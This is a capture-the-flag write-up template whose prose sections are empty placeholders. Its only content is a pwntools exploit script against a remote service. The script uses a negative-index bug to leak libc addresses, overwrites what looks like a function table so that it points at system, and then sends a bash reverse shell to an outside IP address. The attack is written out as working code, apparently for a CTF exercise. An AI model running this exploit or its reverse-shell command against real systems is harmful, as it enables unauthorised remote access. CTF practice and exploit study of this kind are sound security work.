# Challenge Name - CTF Name
## Challenge Info
- Date: YYYY-MM-DD
- CTF Name:
- Category: web/pwn/rev/crypto/forensic/osint/misc
- Difficulty (subjective): easy/medium/hard
- Points:
- Provided Files:
- tools:
## Brief Description
## Initial Analysis
### Environment
### Code
## Vulnerability
## Exploit
### Strategy
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
### payload
``` python
from pwn import *

#p = process("./cnb")
#r = remote("127.0.0.1", 8080)
r = remote("43.200.123.226", 8080)
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc.so.6")

r.sendline("DETAIL|-1")

for i in range(8):
    r.recvuntil("|")

libc_leak = u64(r.recvn(6)+b"\x00\x00")
libc_base = libc_leak - libc.sym["ntohs"]
system = libc_base + libc.sym["system"]
log.info(hex(libc_base))

payload = p64(libc_leak)
payload += p64(libc_base+libc.sym["bind"])
payload += p64(libc_base+libc.sym["pthread_create"])
payload += p64(libc_base+libc.sym["perror"])
payload += p64(libc_base+libc.sym["strtok"])
payload += p64(libc_base+libc.sym["accept"])
payload += p64(libc_base+libc.sym["system"])*2
r.sendline(b"UPDATE|-1|"+b"|"+b"|"+b"|"+b"|"+b"|"+b"|"+payload+b"|"+b"b"*0x40)

cmd = "bash -c 'bash -i >& /dev/tcp/158.247.215.127/10123 0>&1'"
r.sendline("DELETE|"+cmd)

#p.interactive()
#p.close()
r.interactive()
```